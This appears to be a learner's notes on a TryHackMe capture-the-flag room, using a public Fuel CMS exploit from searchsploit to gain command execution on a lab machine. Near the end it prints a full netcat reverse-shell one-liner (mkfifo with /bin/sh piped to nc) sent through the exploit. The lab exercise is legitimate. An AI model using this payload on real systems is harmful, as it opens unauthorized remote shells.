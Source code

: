 
so there is an exploit available 

──(root💀kali)-[~/Desktop/THM]
└─# searchsploit fuel 


┌──(root💀kali)-[~/Desktop/THM]
└─# searchsploit -m linux/webapps/47138.py   


got it in my local system made some changes to it

change the url to my machine Ip
url = "http://10.10.230.180"


and removed the `proxies=proxy` from the following line. T

his would be fine if you wanted to funnel this exploit through burp, but it’s not necessary sicne we are not using it


tried to run the exploit using python3 but got an error
┌──(root💀kali)-[~/Desktop/THM]
└─# python3 47138.py           
  File "/root/Desktop/THM/47138.py", line 33
    print r.text[0:dup]
    ^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?


so did the same but with python2 and got a cmd shell

so i after this we can try to get a php reverse shell and it fails so i folled e the writeup

used this command:

┌──(root💀kali)-[~/Desktop/THM]
└─# python2 47138.py                                                                                                                                     1 ⨯
cmd:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.174 8080 >/tmp/f 


opened a netcat listener on port 8080 and got a bash shell and from there i got the user flag


